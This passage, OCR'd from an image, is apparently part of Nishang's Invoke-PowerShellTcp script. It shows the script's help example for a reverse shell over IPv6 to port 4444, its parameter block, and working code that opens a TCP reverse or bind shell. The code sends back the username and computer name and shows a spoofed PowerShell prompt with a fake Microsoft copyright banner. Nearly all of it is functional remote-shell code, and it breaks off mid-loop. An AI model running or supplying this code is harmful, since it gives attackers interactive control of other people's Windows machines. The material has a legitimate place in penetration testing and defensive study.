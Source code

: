 ```powershell
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
```